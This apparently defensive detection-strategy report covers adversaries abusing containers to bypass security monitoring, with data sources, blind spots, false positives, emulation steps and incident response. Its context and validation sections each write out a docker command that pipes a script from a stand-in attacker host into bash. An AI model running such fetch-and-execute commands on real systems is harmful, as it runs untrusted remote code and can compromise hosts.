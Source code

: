 # Alerting & Detection Strategy (ADS) Report

## Goal
The objective of this detection technique is to identify adversarial attempts to bypass security monitoring systems by leveraging container technology. Containers are increasingly used by adversaries due to their ability to encapsulate environments, making malicious activities harder to detect.

## Categorization

- **MITRE ATT&CK Mapping:** T1133 - External Remote Services
- **Tactic / Kill Chain Phases:**
  - Persistence
  - Initial Access
- **Platforms:** Windows, Linux, Containers, macOS

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1133)

## Strategy Abstract
This detection strategy focuses on monitoring and analyzing container activities across multiple platforms to identify unauthorized or suspicious behaviors. The primary data sources include:

- Container orchestration logs (e.g., Kubernetes, Docker)
- Network traffic patterns within containers
- System-level event logs from the host operating system

The analysis involves identifying anomalous patterns such as unexpected network connections originating from containers, unusual configurations in container runtimes, and unauthorized image pull activities.

## Technical Context
Adversaries exploit containers to conceal malicious operations by mimicking legitimate applications or services. Common tactics include:

- **Container Image Tampering:** Malicious actors modify existing images or create new ones with embedded malware.
- **Orchestration Manipulation:** By exploiting container orchestration tools, adversaries can gain control over container deployment and scaling processes.

Adversary emulation involves creating test scenarios where containers are used to execute commands remotely or access sensitive data. For example:

```bash
docker run -d --name adversary_container malicious_image /bin/bash -c "curl http://attacker-server.com/malicious_payload.sh | bash"
```

This command emulates an attacker pulling a compromised image and executing a remote script.

## Blind Spots and Assumptions

- **Blind Spots:**
  - Detection might miss sophisticated attacks using legitimate container configurations.
  - Encrypted network traffic within containers may not be analyzed effectively without decryption capabilities.

- **Assumptions:**
  - Assumes that all container activities are logged with sufficient detail for analysis.
  - Relies on baseline knowledge of normal container behavior to identify anomalies.

## False Positives
Potential benign activities that might trigger false alerts include:

- Legitimate use of containers by developers for rapid prototyping or testing purposes.
- Automated deployments and scaling operations in a microservices architecture.
- Network scanning tools running within development environments.

## Priority
**Severity:** High

**Justification:** The use of containers to bypass security monitoring presents a significant risk due to their ability to encapsulate and conceal malicious activities, potentially allowing adversaries persistent access to the environment.

## Validation (Adversary Emulation)

### Step-by-Step Instructions

1. **Setup Test Environment:**
   - Deploy a container orchestration platform like Kubernetes or Docker Swarm.
   - Configure logging for container activities and network traffic.

2. **Create Malicious Container Image:**
   - Use an existing image as a base.
   - Embed a script that connects to an external server upon execution.

3. **Deploy the Malicious Container:**
   ```bash
   docker run -d --name test_container malicious_image /bin/bash -c "curl http://test-server.com/malicious_payload.sh | bash"
   ```

4. **Monitor Logs and Network Traffic:**
   - Analyze logs for unexpected network connections or unauthorized image pulls.
   - Observe any deviations from normal container behavior.

## Response
When an alert is triggered, analysts should:

1. **Isolate the Container:** Immediately isolate the affected container to prevent further communication with external servers.
2. **Analyze Logs:** Review detailed logs of the container's activities and network traffic for signs of malicious behavior.
3. **Investigate Host System:** Check the host system for any signs of compromise or unauthorized access.
4. **Update Security Measures:** Enhance security controls, such as implementing stricter image scanning policies and improving network segmentation.

## Additional Resources
- [Docker Security Best Practices](https://docs.docker.com/engine/security/)
- [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)

This report provides a comprehensive framework for detecting adversarial attempts to exploit container technologies, ensuring robust security monitoring and response strategies.